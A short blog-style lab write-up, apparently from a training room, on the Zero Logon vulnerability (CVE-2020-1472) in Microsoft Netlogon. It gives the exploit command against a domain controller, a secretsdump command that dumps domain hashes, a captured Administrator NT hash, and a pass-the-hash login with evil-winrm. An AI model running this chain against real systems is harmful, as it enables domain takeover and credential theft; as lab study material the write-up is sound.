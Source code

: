 ```yaml
---
title: Zero Logon CVE
author: Yuchao
date: 2022-05-17 11:33:00 +0800
categories: [sec]
tags: [cve]
math: true
mermaid: true
---
```


# Zero Logon

# CVE-2020-1472
- abuses a feature within MS-NRPC (Microsoft NetLogon Remote Protocol)
- AES-CFB8 with hard coded IV.
- <https://github.com/SecuraBV/CVE-2020-1472>, the POC
- <https://github.com/Sq00ky/Zero-Logon-Exploit>, change password to null after exploit

# step
#### impacket installation
```
python3 -m pip install virtualenv

python3 -m virtualenv impacketEnv

source impacketEnv/bin/activate

pip install git+https://github.com/SecureAuthCorp/impacket
```

# recon
use nmap -sC -sV

# exploit
```
python3 zerologon.py DC01 10.10.166.73
```

# dump
```
python3 secretdump.py -just-dc -no-pass DC01\$@10.10.166.73
```

NT hash is 3f3ef89114fb063e3d7fc23c20f65568
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
```

Domain Admin accounts
- starts with a-, like a-fubukis, a-koronei. 

#### login by evil-winrm
```
evil-winrm -u Administrator -H 3f3ef89114fb063e3d7fc23c20f65568 -i 10.10.166.73
```
